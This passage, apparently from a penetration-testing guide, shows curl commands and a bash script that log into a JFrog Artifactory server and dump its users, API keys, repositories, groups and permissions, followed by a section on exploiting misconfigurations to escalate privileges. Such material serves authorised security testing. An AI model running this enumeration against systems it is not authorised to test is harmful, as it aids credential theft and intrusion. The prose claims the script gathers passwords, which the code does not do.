 #### List Permissions:
```bash
curl -b cookies.txt -H "X-JFrog-Art-Api:$access_token" "http://<artifactory_url>/ui/api/v1/ui/permissions" -o permissions.json
```

### 5. **Automating Enumeration with a Script**
Here's a bash script that logs in, enumerates users, passwords, and other relevant information, and saves the results to files.

```bash
#!/bin/bash

# Define variables
artifactory_url="http://<artifactory_url>"
username="<username>"
password="<password>"

# Log in to Artifactory and capture cookies
curl -X POST -c cookies.txt -d "username=$username&password=$password" "$artifactory_url/ui/api/v1/ui/login"

# (Optional) Extract the access token from cookies
access_token=$(grep 'access_token' cookies.txt | awk '{print $7}')

# Enumerate users
curl -b cookies.txt -H "X-JFrog-Art-Api:$access_token" "$artifactory_url/ui/api/v1/ui/users" -o users.json

# Attempt to list API keys
curl -b cookies.txt -H "X-JFrog-Art-Api:$access_token" "$artifactory_url/api/security/apiKey" -o api_keys.json

# List repositories
curl -b cookies.txt -H "X-JFrog-Art-Api:$access_token" "$artifactory_url/ui/api/v1/ui/repositories" -o repos.json

# List groups
curl -b cookies.txt -H "X-JFrog-Art-Api:$access_token" "$artifactory_url/ui/api/v1/ui/groups" -o groups.json

# List permissions
curl -b cookies.txt -H "X-JFrog-Art-Api:$access_token" "$artifactory_url/ui/api/v1/ui/permissions" -o permissions.json

echo "Enumeration complete. Check JSON files for results."
```

### 6. **Exploiting Misconfigurations**
If the API returns sensitive data, such as API keys or misconfigured access controls, you can potentially escalate your privileges or access restricted resources.
